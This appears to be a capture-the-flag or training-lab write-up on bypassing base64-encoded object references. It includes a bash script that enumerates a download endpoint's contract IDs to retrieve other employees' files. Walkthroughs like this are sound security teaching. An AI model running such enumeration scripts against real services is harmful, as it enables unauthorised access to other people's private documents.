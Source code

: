 # Bypassing Encoded References

#### Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In this exercise we must look for the flag in the Contracts page. When we download a contract we can see that we intercept a GET Request. The `contract` parameter has the value `MQ==`, which is the base64 encoded value for `1`.

Since this looks a pretty straight forward encoding method we can automatize the download process with a bash script:

{% code overflow="wrap" %}
```bash
#!/bin/bash

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | tr -d ' -'); do
        curl -sOJ -X GET "http://SERVER_IP:SERVER_PORT/download.php?contract=$hash"
    done
done
```
{% endcode %}

After execute the script let's list all the files downloaded with `ls -l`.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can clearly see that one of the files stands out.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
